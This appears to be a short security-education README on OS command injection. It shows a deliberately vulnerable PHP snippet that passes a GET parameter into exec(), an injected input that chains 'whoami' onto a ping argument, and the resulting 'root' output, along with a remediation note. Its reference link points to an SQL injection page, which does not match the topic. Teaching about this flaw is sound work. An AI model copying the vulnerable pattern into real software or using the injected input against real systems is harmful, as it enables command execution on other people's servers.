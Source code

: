 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/os-command-injection/main/os-command-injection.png"></p>

A threat actor may inject arbitrary operating system (OS) commands on target

## Example #1
1. Threat actor crafts a malicious request to a vulnerable target
2. The target process the malicious request and returns the result

## Code
#### Target-Logic 
```php
...
<?php
$result = exec("ping -c4 ".$_GET["ip"]);
echo($result)
?>
...
```

#### Target-In
```
x 2>/dev/null || whoami
```

#### Target-Out
```
root
```

## Impact
High

## Names
- Command Injection

## Risk
- Read & write data
- Command execution

## Redemption
- Input validation

## ID
154d5db5-9614-42f9-9898-3355a7b7848f

## References
- [wiki](https://en.wikipedia.org/wiki/sql_injection)
